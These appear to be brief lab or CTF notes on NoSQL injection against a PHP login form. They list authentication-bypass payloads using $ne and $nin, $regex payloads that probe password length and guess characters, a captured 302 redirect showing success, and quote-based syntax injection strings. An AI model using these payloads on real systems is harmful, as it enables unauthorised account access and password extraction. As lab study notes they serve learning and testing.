



# NoSQL

Number 1 Test

```jsx
user[$ne]=sdzxx&pass[$ne]=cx+xx&remember=on
```

Number 2 test

```jsx
user[$nin][]=admin&user[$nin][]=pedro&pass[$ne]=ad%2Ch&remember=on
```

Guessing Password[Character Length]

```jsx

user=admin&pass[$regex]=^.{8}$&remember=on
```

Output

```jsx
HTTP/1.1 302 Found
Date: Sat, 01 Aug 2026 17:44:26 GMT
Server: Apache/2.4.41 (Ubuntu)
Set-Cookie: PHPSESSID=fkubmf17rc13sur1pjthbn6rn6; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /sekr3tPl4ce.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8

```

Guessing Password

```jsx
user=admin&pass[$regex]=^a......$&remember=on
```





Syntax Injection

```jsx
1. email:admin' && 0 && 'x
2. email:admin'
```

```jsx
email:admin'||'admin@nosql.int
```

